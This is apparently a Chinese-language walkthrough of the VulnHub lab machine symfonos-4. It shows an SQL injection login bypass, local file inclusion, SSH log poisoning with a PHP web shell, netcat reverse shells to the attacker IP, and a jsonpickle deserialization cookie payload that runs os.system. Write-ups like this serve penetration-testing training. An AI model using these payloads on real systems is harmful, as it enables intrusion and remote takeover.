# symfonos-4

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：symfonos-4（IP：192.168.56.106）

下载：https://www.vulnhub.com/entry/symfonos-4,347/

## Let's go

```
nmap -A 192.168.56.106
```


> **网站并无信息，进行枚举**


```
username=admin' or '1'='1'#&password=123456
```



```
#发现文件包含
http://192.168.56.106/sea.php?file=../../../../var/log/auth
```



```
ssh '<?php system($_GET['cmd']); ?>'@192.168.56.106
http://192.168.56.106/sea.php?file=../../../../var/log/auth&cmd=nc -e /bin/bash 192.168.56.102 4444
nc -lp 4444
```





> **发现一个有意思的进程，让我们进行端口转发**



```
ssh -NfR 8000:127.0.0.1:8080 root@192.168.56.102
```


```
http://localhost:8000/whoami
```



> **让我们进行拦截，发现base64编码的cookie，我们进行解码**





> **发现是 jsonpickle 字符串，并且搜索发现可以使用下面方法利用**

```
{"py/object":"__main__.Shell","py/reduce":[{"py/function":"os.system"},["nc -e /bin/sh 192.168.56.102 5555"], 0, 0, 0]}
```

> **进行base64编码和替换cookie**





```
nc -lp 5555
```

